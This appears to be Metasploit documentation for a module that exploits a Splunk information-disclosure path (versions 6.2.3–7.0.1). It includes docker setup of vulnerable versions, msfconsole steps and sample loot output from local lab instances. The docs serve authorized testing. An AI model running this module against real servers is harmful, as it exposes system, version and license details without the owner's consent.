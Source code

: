 ## Vulnerable Application

Splunk versions 6.2.3 through 7.0.1 allows information disclosure by appending
`/__raw/services/server/info/server-info?output_mode=json` to a query.

Versisons 6.6.0 through 7.0.1 require authentication.

### Docker Install

#### Splunk 6.5.5

A vulnerable version of Splunk can be installed locally with docker:

`docker run -p 8000:8000 -e "SPLUNK_PASSWORD=splunk" -e "SPLUNK_START_ARGS=--accept-license" -it --name so1 splunk/splunk:6.5.5`

#### Splunk 7.1.0

At startup it'll ask for a password for the system. You may need to login via the website and accept a license and restart
the service (via website) for the instance to be exploitable. Splunk can be started via docker with:

`docker run -p 8000:8000 -e "SPLUNK_START_ARGS=--accept-license" -it --name so2 splunk/splunk:7.1.0`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/splunk_raw_server_info`
1. Do: `SET RHOSTS [IP]`
1. You should receive output about the Splunk version and roles, license status, including license key info, and OS information.

## Options

## Scenarios

### Splunk 6.5.5

```
msf > use auxiliary/gather/splunk_raw_server_info 
msf auxiliary(gather/splunk_raw_server_info) > exploit
[*] Running module against 127.0.0.1

[+] Output saved to ~/.msf4/loot/20231220130955_default_127.0.0.1_splunk.system.st_442957.bin
[+] Hostname: 3c7b9beb6c3c
[+] CPU Architecture: x86_64
[+] Operating System: Linux
[+] OS Build: #1 SMP PREEMPT_DYNAMIC Debian 6.5.3-1kali2 (2023-10-03)
[+] OS Version: 6.5.0-kali2-amd64
[+] Splunk Version: 6.5.5
[+] Trial Version?: true
[+] Splunk Forwarder?: false
[+] Splunk Product Type: enterprise
[+] License State: EXPIRED
[+] License Key(s): []
[+] Splunk Server Roles: ["indexer", "license_master"]
[+] Splunk Server Startup Time: 2023-12-19 20:56:13
```

### Splunk 7.1.0

```
[msf](Jobs:0 Agents:0) > use auxiliary/gather/splunk_raw_server_info 
[msf](Jobs:0 Agents:0) auxiliary(gather/splunk_raw_server_info) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
[msf](Jobs:0 Agents:0) auxiliary(gather/splunk_raw_server_info) > set username admin
username => admin
[msf](Jobs:0 Agents:0) auxiliary(gather/splunk_raw_server_info) > set password splunksplunk
password => splunksplunk
[msf](Jobs:0 Agents:0) auxiliary(gather/splunk_raw_server_info) > set verbose true
verbose => true
[msf](Jobs:0 Agents:0) auxiliary(gather/splunk_raw_server_info) > run
[*] Running module against 127.0.0.1

[+] Output saved to /root/.msf4/loot/20231220204049_default_127.0.0.1_splunk.system.st_943292.json
[+] Hostname: 523a845e8652
[+] CPU Architecture: x86_64
[+] Operating System: Linux
[+] OS Build: #1 SMP PREEMPT_DYNAMIC Debian 6.5.6-1kali1 (2023-10-09)
[+] OS Version: 6.5.0-kali3-amd64
[+] Splunk Version: 7.1.0
[+] Trial Version?: false
[+] Splunk Forwarder?: false
[+] Splunk Product Type: splunk
[+] License State: OK
[+] License Key(s): ["FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF"]
[+] Splunk Server Roles: ["indexer", "license_master"]
[+] Splunk Server Startup Time: 2023-12-21 01:40:02
[*] Auxiliary module execution completed
```
